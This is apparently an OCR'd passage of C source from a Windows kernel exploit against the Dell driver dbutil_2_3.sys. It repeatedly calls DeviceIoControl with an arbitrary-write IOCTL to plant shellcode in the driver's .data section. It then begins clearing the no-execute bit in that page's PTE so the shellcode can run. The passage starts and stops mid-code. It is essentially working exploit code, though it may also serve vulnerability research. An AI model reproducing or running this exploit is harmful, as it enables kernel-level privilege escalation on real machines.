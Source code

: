 ```c
          &inBuf8,
          sizeof(inBuf8),
          &inBuf8,
          sizeof(inBuf8),
          &bytesReturned8,
          NULL
        );

        BOOL interact8 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf9,
          sizeof(inBuf9),
          &inBuf9,
          sizeof(inBuf9),
          &bytesReturned9,
          NULL
        );

        BOOL interact9 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf10,
          sizeof(inBuf10),
          &inBuf10,
          sizeof(inBuf10),
          &bytesReturned10,
          NULL
        );

        BOOL interact10 = DeviceIoControl(
          driverHandle,
          IOCTL_WRITE_CODE,
          &inBuf11,
          sizeof(inBuf11),
          &inBuf11,
          sizeof(inBuf11),
          &bytesReturned11,
          NULL
        );

        // A lot of error handling
        if (!interact2 || !interact3 || !interact4 || !interact5 || !interact6 || !interact7 || !interact8 || !interact9 || !interact10)
        {
          printf("[-] Error! Unable to interact with the driver. Error: 0x%lx\n", GetLastError());
          exit(-1);
        }
        else
        {
          printf("[+] Successfully wrote the shellcode to the .data section of dbutil_2_3.sys at address: 0x%llx\n", shellcodeLocation);

          // Clear the no-eXecute bit
          unsigned long long taintedPte = pteBits & 0x0FFFFFFFFFFFFFFF;

          printf("[+] Corrupted PTE bits for the shellcode page: %p\n", taintedPte);

          // Clear the no-eXecute bit in the actual PTE
          // Buffer to send to the driver (write primitive)
          unsigned long long inBuf13[4];

          // Values to send
```